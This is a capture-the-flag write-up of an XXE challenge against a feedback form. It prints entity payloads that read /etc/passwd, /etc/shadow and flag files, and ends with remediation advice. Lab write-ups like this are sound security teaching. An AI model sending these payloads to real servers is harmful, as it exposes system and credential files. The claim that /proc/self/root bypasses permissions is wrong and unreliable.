






# 🐛 Bad Feedback  

**Category:** Web Security  

> A company rolled out a shiny feedback form and insists their customers are completely trustworthy. Every feedback is accepted at face value, no questions asked. What can go wrong?

**Challenge Link:** http://15.206.47.5:5000  
**Hint:** The flag is located in the root directory of the server.

---

## 🔍 Initial Reconnaissance

As soon as the challenge link was opened, it navigated to a simple web page containing a **feedback form** with:
- A **Name** field  
- A **Message** field  
- A **Submit** button  


At first glance, the application looked minimal with no obvious attack surface from the UI itself.

---

## 🕵️ Source Code Inspection

On inspecting the page source, the following JavaScript stood out:

```html
<script>
 // Intercept the form submit and send XML instead of form-encoded data
 document.getElementById('feedback-form').addEventListener('submit', function (e) {
     e.preventDefault();

     const name = document.getElementById('name').value;
     const message = document.getElementById('message').value;

     // Build XML body (players will see this only if they intercept the request)
     const xml =
`<?xml version="1.0" encoding="UTF-8"?>
<feedback>
 <name>${name}</name>
 <message>${message}</message>
</feedback>`;

     fetch('/feedback', {
         method: 'POST',
         headers: {
             'Content-Type': 'application/xml'
         },
         body: xml
     })
     .then(resp => resp.text())
     .then(html => {
         document.open();
         document.write(html);
         document.close();
     })
     .catch(err => {
         alert('Error submitting feedback');
         console.error(err);
     });
 });
</script>
```

---

## 🔍 Key Observation

* User input is **directly injected into an XML document**
* The request is explicitly sent as: `Content-Type: application/xml`

This immediately confirmed that the backend is **parsing user-controlled XML**, which strongly suggested a potential **XML External Entity (XXE)** attack surface.

---

## 🧪 Reproducing the Vulnerability Using Burp Suite

Instead of blindly injecting payloads through the browser, the vulnerability was replicated in a **controlled and repeatable manner using Burp Suite**.

### ▶️ Step 1: Intercepting the Request

* Browser traffic was proxied through **Burp Suite**
* Interception was enabled under:
  `Firefox Browser → FoxyProxy → Burp Suite → Proxy → Intercept`
* The feedback form was submitted with random values

This captured a **POST request to `/feedback`** containing raw XML.



---

### ▶️ Step 2: Inspecting the Raw XML Request

The intercepted request revealed:

* Method: `POST /feedback`
* Header: `Content-Type: application/xml`
* Body:
  ```xml
  <feedback>
    <name>Test</name>
    <message>This is a test message!!!</message>
  </feedback>
  ```

This confirmed that:
✅ The backend blindly trusts client-generated XML
✅ No validation or sanitization is applied

---

### ▶️ Step 3: Sending the Request to Repeater

To safely iterate:

* The request was sent to **Burp Repeater**
* This allowed testing multiple payloads without resubmitting the form every time

---

## ✅ Verifying XXE Using `/etc/passwd`

To confirm whether **external entity resolution was enabled**, the XML body was replaced with the following payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE feedback [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<feedback>
  <name>test</name>
  <message>&xxe;</message>
</feedback>
```

---

### ✅ Result

The server responded with the **contents of `/etc/passwd`**, proving:

* External entities are enabled
* Arbitrary file read is possible
* The application is **100% vulnerable to XXE**



---

### ▶️ Trying `/etc/shadow`

```xml
<!ENTITY xxe SYSTEM "file:///etc/shadow">
```



---

### ▶️ Trying `/root/flag.txt`

Since the challenge hint said **flag is in the root directory**, the following was attempted:

```xml
<!ENTITY xxe SYSTEM "file:///root/flag.txt">
```

❌ Access denied due to permission restrictions.




At this point, the direct path to `/root` was clearly restricted.

---

## 🤔 Rethinking the Environment After `/root/flag.txt` Failed

At this stage, the vulnerability was fully confirmed:

- ✅ XXE was working
- ✅ Arbitrary file reads (`/etc/passwd`) were successful
- ❌ Direct access to `/root/flag.txt` was blocked due to permission restrictions

This immediately suggested that:
- The backend process was running as a **non-root user**
- The challenge was most likely hosted inside a **Linux container**

With that assumption, two different container-aware approaches were tested — and **both successfully led to the flag**.

---

## 🛠️ Approach 1 — Direct Root-Level Guess (`/flag.txt`) ✅

Before using any advanced process-based paths, a **simple and common CTF assumption** was tested:

```xml
<!ENTITY xxe SYSTEM "file:///flag.txt">
````

### 🧠 Why This Was Tried

In many CTF deployments, the flag is sometimes placed directly at:

```
/
└── flag.txt
```

instead of `/root/flag.txt`, specifically to avoid permission-related blockers.

---

### ✅ Result

This payload successfully returned the **flag contents**, proving that:

* The flag was accessible directly from the filesystem root
* Even though `/root` was restricted, `/flag.txt` was world-readable inside the container



This alone was enough to solve the challenge.
However, a second container-aware method was also tested to validate the environment behavior.

---

## 🛠️ Approach 2 — Process-Based Escape Using `/proc/self/root` ✅

To further validate the container hypothesis, a more **advanced Linux process-based path** was tested:

```xml
<!ENTITY xxe SYSTEM "file:///proc/self/root/flag.txt">
```



---

### 🧠 How This Works

* `/proc` is a virtual filesystem maintained by the Linux kernel
* `/proc/self/` always points to the **currently running process**
* `/proc/self/root/` resolves to the **actual root filesystem of the process**
* In containerized setups, this path often **bypasses traditional permission restrictions**

Effectively:

```
/root/flag.txt                → ❌ Permission denied
/proc/self/root/flag.txt      → ✅ Direct container-level access
```

---

## 🧠 Key Insight From This Phase

This stage of the challenge represents a critical attacker mindset shift:

> When direct filesystem access fails due to permissions, switch to **process-level and container-aware filesystem paths**.

Testing both `/flag.txt` and `/proc/self/root/flag.txt` not only ensured flag retrieval but also provided **strong confirmation of the containerized execution environment**.

---


## 🚩 Flag

✅ The response successfully contained the flag:

```
ClOuDsEk_ReSeArCH_tEaM_CTF_2025{b3e0b6d2f1c1a2b4d5e6f71829384756}
```

---

## 🛡️ Why This Vulnerability Is Dangerous

A single XXE misconfiguration can lead to:

* Full file system disclosure
* Credential leaks (`/etc/passwd`, config files)
* Container escape-style access
* Potential SSRF and RCE in extended cases

This makes XXE a **critical-severity vulnerability**.

---

## ✅ Fix & Remediation

To prevent this class of attacks:

* Disable **external entity resolution**
* Disallow **`DOCTYPE` declarations**
* Use hardened XML parsers
* Enforce strict schema validation
* Prefer **JSON over XML** when possible

---

## 🧠 Final Takeaway

This challenge clearly demonstrates how:

> **Blind trust in structured XML input + insecure parsing = full server compromise**

Even with `/root` protected, understanding the Linux process filesystem enabled complete bypass and successful flag retrieval.

---

